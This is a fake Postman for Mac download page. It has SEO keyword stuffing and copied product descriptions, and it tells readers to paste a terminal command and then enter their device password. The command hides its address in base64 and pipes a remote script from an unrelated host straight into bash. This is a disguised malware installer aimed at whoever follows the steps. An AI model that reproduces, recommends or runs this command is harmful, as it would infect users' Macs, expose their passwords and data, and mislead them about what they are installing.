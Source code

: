 # Postman Download Mac - API Development Platform  

![Postman Screenshot 1](https://voyager.postman.com/social-preview/postman-api-platform-social-preview-2.jpeg)  

---  

### 🔽 Download Postman for Mac

> 📥 Open the terminal on your device and paste the command below.
1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## What is Postman for Mac?  

Postman has become the industry-standard platform for API development, used by over 20 million developers worldwide to design, test, document, and monitor APIs. The Mac-native version offers a polished, efficient workspace for building and working with REST, SOAP, and GraphQL APIs across the entire development lifecycle.  

The application provides an elegant interface for constructing HTTP requests with support for all methods, headers, and authentication types. Developers can organize requests into collections with environment variables for different deployment stages. Postman's powerful testing features include automated test scripts with JavaScript, collection runners for comprehensive test suites, and mock servers for API prototyping.  

For teams, Postman offers collaborative features like shared workspaces, version control integration, and API documentation generation. The platform supports API monitoring with scheduled runs and performance metrics, plus integration with CI/CD pipelines. Advanced features include GraphQL query building, WebSocket testing, and gRPC support.  

Postman's Mac application is optimized for macOS with native performance, dark mode support, and system integration. The intuitive interface makes API development accessible to beginners while offering deep functionality for enterprise teams working with complex microservices architectures.  

![Postman Screenshot 2](https://lh3.googleusercontent.com/yUHfFQ-E3pRi94NBIHDhJ2xENzGCeqe25xDpiARurt0flya-paYXTzNhQd3-pCznBk35LxmfU580Yoo8W07hosQRQMA=s1280-w1280-h800)

---  

## Key Features & Benefits  

- 🌐 **API Client** - Support for REST, SOAP, and GraphQL  
- 🧪 **Testing Automation** - JavaScript test scripts and runners  
- 📚 **Documentation** - Auto-generated API docs  
- 👥 **Team Collaboration** - Shared workspaces and versioning  
- 📊 **Monitoring** - API health and performance tracking  
- 🔌 **Integration** - CI/CD and version control support  

Postman simplifies every aspect of API development and collaboration.  

---  

## 🔍 Keywords  

Postman Mac, Postman Mac Download, Postman for Mac Download, Postman Mac, Postman Download Mac, Postman Download for Mac, Postman full version, Mac Download Postman, Download Mac Postman, Download Postman Mac, Download Postman for Mac
